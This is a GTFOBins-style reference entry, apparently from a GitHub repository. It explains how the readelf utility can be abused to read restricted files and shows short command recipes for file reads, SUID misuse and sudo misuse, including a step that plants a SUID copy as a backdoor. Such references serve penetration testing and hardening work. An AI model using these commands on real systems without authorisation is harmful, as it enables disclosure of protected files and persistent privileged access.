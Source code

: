# GTFOBin: readelf

Each line is corrupted by a prefix string and wrapped inside single quotes. Also consider that lines are actually parsed as `readelf` options thus some file contents may lead to unexpected results.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
readelf -a @$LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which readelf) .

LFILE=file_to_read
./readelf -a @$LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo readelf -a @$LFILE
```
